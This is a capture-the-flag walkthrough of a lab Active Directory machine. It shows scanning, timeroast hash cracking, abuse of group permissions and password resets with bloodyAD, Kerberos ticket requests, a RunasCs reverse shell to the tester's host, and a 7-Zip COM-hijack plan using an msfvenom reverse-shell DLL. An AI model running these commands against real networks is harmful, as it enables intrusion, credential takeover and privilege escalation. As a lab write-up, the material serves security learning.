## Intial Reconiscence

## Nmap Scan

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ cat nmap_Rustkey.txt
# Nmap 7.98 scan initiated Fri Sep 25 17:16:49 2026 as: /usr/lib/nmap/nmap -p- -A -T4 -Pn -vv -oN nmap_Rustkey.txt 10.129.232.127
Nmap scan report for dc.rustykey.htb (10.129.232.127)
Host is up, received user-set (0.058s latency).
Scanned at 2026-09-25 17:16:50 BST for 126s
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-26 00:26:21Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: rustykey.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: rustykey.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=9/25%OT=53%CT=1%CU=39380%PV=Y%DS=2%DC=T%G=Y%TM=6AB69EF
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10A%TI=I%CI=I%TS=U)SEQ(SP=1
OS:04%GCD=1%ISR=105%TI=RD%CI=I%II=I%TS=U)SEQ(SP=104%GCD=1%ISR=10A%TI=I%CI=I
OS:%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%ISR=106%TI=I%CI=I%TS=U)SEQ(SP=FD%GCD=1%
OS:ISR=105%TI=I%CI=I%TS=U)OPS(O1=M542NW8NNS%O2=M542NW8NNS%O3=M542NW8%O4=M54
OS:2NW8NNS%O5=M542NW8NNS%O6=M542NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=
OS:FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36323/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57363/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 20282/udp): CLEAN (Timeout)
|   Check 4 (port 22183/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-09-26T00:27:26
|_  start_date: N/A
|_clock-skew: 8h08m39s

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   89.46 ms 10.10.16.1
2   26.52 ms dc.rustykey.htb (10.129.232.127)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 25 17:18:56 2026 -- 1 IP address (1 host up) scanned in 126.19 seconds
```


## Enumerating with given Credentials


we can see that NTLM authentication has been disabled lets try with kerberos and indeed worked


doesnt seems to have any non -default user share on it


Moving forward we can look for any kerberoasting or asp-roasting account with nxc as it seems we doesnt have much luck on it either 
but time roasting did give us some hash
https://www.thehacker.recipes/ad/movement/kerberos/roasting/timeroast

as per the hacker recipes the hash containes only RID of the host instead of hostname so lets try to crack the hash ussing hashcat

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ hashcat -m 31300 -a 0 -O timeroast_hashes.txt /usr/share/wordlists/rockyou.txt --username
```


`1125:Rusty88!

next we need to find who is this user before that we can use bloodhound to see if the current user have any priveleges at all

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey/bh]
└─$ bloodhound-ce-python -u rr.parker -k -d rustykey.htb -ns 10.129.232.127 -c All --zip
```

Didnt find any useful relation but  the other user with RID 1125 he have Addself to helpdesk group


Using impacket-getTGT we can request for an TGT ticket for he computer 


after saving the tgt ticket of the computer we used bloodyAD to add the computer to HELPDESK group

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ bloodyAD --host dc.rustykey.htb --dc-ip 10.129.232.127 -d rustykey.htb -u 'IT-COMPUTER3' -k add groupMember 'HELPDESK' 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```


the group member have so-many priv on other users

lets enumerate one by one first changing the password of the user DD.Morgan


Other than`DD.ALI` we are not able request an Tgt ticket to request any other user the reason being mentioned is 
`Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)`
Before removing them from protected object we can enumerate the DD.ALI user



doesn't seem to have any non-default share and privliege


other than being in finance group

lets add our IT-3  to the group !

we can see that  from bloodhound the since we are member of protected object if we remove them from us we should be able to request to an ticket !

We got the access to BB.morgan



but had a bit of trouble with accessing winrm using evil-winrm 
https://notes.benheater.com/books/active-directory/page/kerberos-authentication-from-kali
we need to setup our krb.conf file to access or need to use evil-winrm.py , 
instead of manually creating one we can use nxc to create one for us 

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ nxc smb dc.rustykey.htb --use-kcache -k --generate-krb5-file krb5.conf
SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.rustykey.htb 445    dc               [+] krb5 conf saved to: krb5.conf
SMB         dc.rustykey.htb 445    dc               [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
SMB         dc.rustykey.htb 445    dc               [+] RUSTYKEY.HTB\BB.MORGAN from ccache 
```

then save the config 
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ sudo cp krb5.conf /etc/krb5.conf
```

bb.morgan with evil-winrm
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ evil-winrm -i dc.rustykey.htb -r rustykey.htb
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> whoami
rustykey\bb.morgan
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> 
```



lets see whats the tool pdf in the desktop


the pdf mentiones support group members have given an extended right to testing and troubleshooting of file archive 

`EE.REED` is member of the support group who we have right to change password

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ export KRB5CCNAME=IT-COMPUTER3.ccache
```

we gonna change the password 
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ bloodyAD --host dc.rustykey.htb --dc-ip 10.129.232.127 -d rustykey.htb -u 'IT-COMPUTER3' -k set password 'EE.REED' 'Password123!'
[+] Password changed successfully!
```

removing the group from protected objects
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ bloodyAD --host dc.rustykey.htb --dc-ip 10.129.232.127 -d rustykey.htb -u 'IT-COMPUTER3$' -k remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
[-] SUPPORT removed from PROTECTED OBJECTS
```

saving the ticket 

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ impacket-getTGT rustykey.htb/EE.REED:'Password123!' -dc-ip 10.129.232.127
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in EE.REED.ccache
```

But still we arent able to login with ccache , but we can use RunasC.exe to authenticate as EE.REED
```bash
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\RunasCs.exe ee.reed Password123! cmd.exe -r 10.10.17.130:4444
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-d4508e$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2260 created in background.
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> 
```



`Terminal 2`
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ rlwrap -cAr nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.17.130] from (UNKNOWN) [10.129.232.127] 61867
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
rustykey\ee.reed
PS C:\Windows\system32> 
```

So we from the `pdf` we know that some kind registery level changes are happening so first lets enumerate the CLSID of 7-zip 

```bash
PS C:\Program Files\7-zip> Get-ChildItem "HKLM:\SOFTWARE\Classes\CLSID" | ForEach-Object {
    $default = (Get-ItemProperty $_.PSPath -ErrorAction SilentlyContinue).'(default)'
    if ($default -like "*7-Zip*") {
G        [PSCustomObject]@{ CLSID = $_.PSChildName; Name = $default }
    }
et-ChildItem "HKLM:\SOFTWARE\Classes\CLSID" | ForEach-Object {
>> }
    $default = (Get-ItemProperty $_.PSPath -ErrorAction SilentlyContinue).'(default)'
>>     if ($default -like "*7-Zip*") {
>>         [PSCustomObject]@{ CLSID = $_.PSChildName; Name = $default }
>>     }
>> }
>> 


CLSID                                  Name                 
-----                                  ----                 
{23170F69-40C1-278A-1000-000100020000} 7-Zip Shell Extension
```

then we  need to check weather if we can edit the CLSID at all

```bash
PS C:\Program Files> Get-Acl "HKLM:\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | Format-List
Get-Acl "HKLM:\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-0001000
         20000}\InprocServer32
Owner  : BUILTIN\Administrators
Group  : RUSTYKEY\Domain Users
Access : APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         CREATOR OWNER Allow  FullControl
         RUSTYKEY\Support Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadKey
Audit  : 
Sddl   : O:BAG:DUD:AI(A;CIID;KR;;;AC)(A;ID;KA;;;BA)(A;CIIOID;KA;;;CO)(A;CIID;KA;;;S-1-5-21-3316070415-896458127-4139322
         052-1132)(A;CIID;KA;;;SY)(A;CIIOID;KA;;;BA)(A;CIID;KR;;;BU)
```

we can see the Support group member have full access to edit 
now we create an evill dll file that when a user use 7zip it points to our dll 

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack/Misc-PowerShell-Stuff]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.130 LPORT=443 -f dll -o 7z.dll
```

> i havent seen any active defender in this box so we can just move forward without worrying about signatures

after that we can upload the file with python server or the winrm session !

